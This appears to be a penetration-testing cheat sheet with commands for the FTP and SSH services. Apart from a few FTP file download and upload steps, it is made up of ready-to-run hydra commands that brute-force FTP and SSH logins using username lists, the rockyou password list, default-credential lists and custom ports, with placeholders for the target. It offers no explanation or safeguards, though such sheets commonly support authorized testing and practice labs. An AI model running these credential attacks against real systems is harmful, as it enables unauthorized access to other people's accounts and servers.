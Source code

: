 ```
ftp <IP>
PASSIVE
BINARY
get <FILE>
```
### Upload File

```
ftp <IP>
PASSIVE
BINARY
put <FILE>
```
### FTP Brute-Force

```
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt <<IP>> ftp
```

```
hydra -l <<USERNAME>> -P /usr/share/wordlists/rockyou.txt <<IP>> ftp
```

**Default Credentials**
```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <<IP>> ftp
```

**Specify Port**
```
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt <<IP>> -s <<PORT>> ftp
```



## Port 22 (SSH)

### SSH Brute-Force 

```
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt <<IP>> ssh
```

```
hydra -l joe -P /usr/share/wordlists/rockyou.txt <<IP>> ssh
```

```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt <<IP>> ssh
```

**Specify Port**
```
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt <<IP>> -s <<PORT>> ssh
```
